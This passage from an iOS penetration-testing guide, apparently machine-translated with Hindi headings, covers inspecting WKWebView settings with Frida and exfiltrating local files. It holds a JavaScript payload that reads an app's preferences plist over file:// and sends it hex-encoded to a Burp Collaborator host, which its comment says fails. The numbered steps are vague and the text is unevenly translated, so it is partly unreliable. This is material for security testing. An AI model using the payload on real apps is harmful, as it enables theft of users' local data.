 
```bash
frida -U -f com.authenticationfailure.WheresMyBrowser -l webviews_inspector.js

onMatch:  <WKWebView: 0x1508b1200; frame = (0 0; 320 393); layer = <CALayer: 0x1c4238f20>>
URL:  file:///var/mobile/Containers/Data/Application/A654D169-1DB7-429C-9DB9-A871389A8BAA/
Library/WKWebView/scenario1.html
javaScriptEnabled:  true
allowFileAccessFromFileURLs:  0
hasOnlySecureContent:  false
allowUniversalAccessFromFileURLs:  0
```
#### अनियमित फ़ाइलों को निकालें

To exfiltrate arbitrary files from an iOS app's webview, you can use the following steps:

1. Identify the webview in the app: Inspect the app's source code or use a proxy tool to identify the webview component.

2. Analyze the webview's behavior: Determine how the webview handles file requests and uploads. Look for any vulnerabilities or misconfigurations that can be exploited.

3. Craft a malicious file request: Create a request to retrieve the desired file from the webview. This can be done by intercepting and modifying the app's network traffic.

4. Exploit the vulnerability: Send the malicious file request to the webview and observe the response. If successful, the webview will return the requested file.

5. Extract the file: Save the received file to your local machine or a remote server for further analysis.

By following these steps, you can exfiltrate arbitrary files from an iOS app's webview and gain access to sensitive information.
```javascript
//For some reason this payload doesn't work!!
//Let me know if you know how to exfiltrate local files from a WKWebView
String.prototype.hexEncode = function(){
var hex, i;
var result = "";
for (i=0; i<this.length; i++) {
hex = this.charCodeAt(i).toString(16);
result += ("000"+hex).slice(-4);
}
return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
var xhr2 = new XMLHttpRequest();
xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
xhr2.send(null);
}
}
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
## वेबव्यूज़ के माध्यम से प्रकट नेटिव विधियाँ

